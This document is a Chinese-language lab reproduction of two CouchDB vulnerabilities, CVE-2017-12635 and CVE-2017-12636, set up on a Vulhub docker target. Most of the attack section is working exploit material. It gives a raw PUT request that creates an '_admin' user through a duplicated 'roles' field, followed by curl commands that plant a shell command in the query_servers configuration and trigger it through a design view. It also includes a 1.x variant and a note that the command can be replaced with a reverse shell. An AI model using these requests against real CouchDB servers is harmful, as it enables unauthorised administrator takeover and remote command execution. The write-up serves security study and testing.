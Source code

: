 # 前言

CouchDB 是一个开源的面向文档的数据库管理系统，可以通过 RESTful JavaScript Object Notation  (JSON) API  访问。CVE-2017-12635是由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query_server，这个配置项在设计、执行view的时候将被运行。

**影响版本：**

​	小于 1.7.0 以及小于 2.1.1

# 漏洞复现

## 环境搭建

使用Vulhub的漏洞平台进行复现

![image-20230115162346004](https://static.sechelper.com/img/2023/01/16/aaca903fd1bcb8510cd74d3dbf262e63.png)

`docker-compose up -d`

![image-20230115162901210](https://static.sechelper.com/img/2023/01/16/4fcc85d15a1a78d3adb6b0683503e518.png)

访问http://192.168.52.128:5984/_utils/#login出现如下页面搭建成功

![image-20230115163004477](https://static.sechelper.com/img/2023/01/16/381239fa4fd4ba6264dbe65de78f2c5a.png)

## 测试过程

### CVE-2017-12635

构造创建账户的PUT包

```
PUT /_users/org.couchdb.user:liangban HTTP/1.1
Host: www.0-sec.org:5984
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 104

 {
   "type": "user",
   "name": "liangban",
   "roles": ["_admin"],
   "password": "liangban"
 }
```

![image-20230115165925826](https://static.sechelper.com/img/2023/01/16/8ebbc7e7ff3237e39f13f83d39f6edb6.png)

我们没有admin权限，所以报错forbidden显示只有管理员才能设置Role角色。

绕过role验证：发送包含两个roles的数据包，即可绕过限制

在原先的包中加入 "roles":[],

![image-20230115170628632](https://static.sechelper.com/img/2023/01/16/02b603e39ea326323cf1a1f6620c260a.png)

返回如图所示即成功创建用户

尝试使用liangban/liangban登录：

![image-20230115170859103](https://static.sechelper.com/img/2023/01/16/310a139dab37661be367e6a33284e7ba.png)

成功登录，且为管理员账户

### CVE-2017-12636

该漏洞利用条件需要登录管理员用户触发，可使用上面介绍的CVE-2017-12635搭配利用

由于Couchdb 2.x和和1.x的的API接口有所差别，导致利用方式也不同，这里直接拿刚刚复现的CVE-2017-12635环境，演示2.x版本

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name,带上账号密码访问`/_membership`获取node名称：

其中liangban:liangban为管理员的账户密码

`curl http://liangban:liangban@192.168.52.128:5984/_membership`

![image-20230115173454056](https://static.sechelper.com/img/2023/01/16/68b50c1b2ec354db0f8783b29ac3940b.png)

这里只有一个node，为：nonode@nohost

修改`nonode@nohost`的配置,其中`id >/tmp/success`是要执行的命令，可以更换为弹shell

```
curl -X PUT http://liangban:liangban@192.168.52.128:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![image-20230115174554524](https://static.sechelper.com/img/2023/01/16/be467cbfa0f6f5f926db1a1c5d1f8747.png)

请求添加一个名为zhuAn的Database，以便在里面执行查询

`curl -X PUT 'http://liangban:liangban@192.168.52.128:5984/zhuan'`

![image-20230115180231239](https://static.sechelper.com/img/2023/01/16/3e7ffd1a31759ab8cf1c966c7309f6f4.png)

请求添加一个名为test的Document，以便在里面执行查询

`curl -X PUT 'http://liangban:liangban@192.168.52.128:5984/zhuan/test' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`

![image-20230115180752378](https://static.sechelper.com/img/2023/01/16/cf0921e028556a01cfc481cda36a3487.png)

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：

`curl -X PUT http://liangban:liangban@192.168.52.128:5984/zhuan/_design/test -d  '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"`

![image-20230115194811747](https://static.sechelper.com/img/2023/01/16/44011c9e8ba1010cf2af8ce35d85d191.png)

增加`_view`的同时即触发了`query_servers`中的命令。

看到返回错误信息没有关系，报错来源于执行命令之后的流程

加入靶机的docker查看发现命令执行成功，成功写入success文件

![image-20230115195233436](https://static.sechelper.com/img/2023/01/16/da489f3ceb8dae61bf1d4db9dc6224eb.png)



**1.6.0系列**

`curl -X PUT 'http://liangban:liangban@192.168.52.128:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'`

`curl -X PUT 'http://liangban:liangban@192.168.52.128:5984/zhuan'`

`curl -X PUT 'http://liangban:liangban@192.168.52.128:5984/zhuan/test' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'`

`curl -X POST  'http://liangban:liangban@192.168.52.128:5984/zhuan/_temp_view?limit=10'  -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'`

### exp

要替换对应的网址，端口，监听ip，对应版本，1.x和2.x的payload不一致。

`python3 exp.py`

![image-20230115221117654](https://static.sechelper.com/img/2023/01/16/6c6ee85208f0ccd5dbc929970407bbf7.png)

![image-20230115220615107](https://static.sechelper.com/img/2023/01/16/51a7653be9dff7288ac069e1fc3959c9.png)
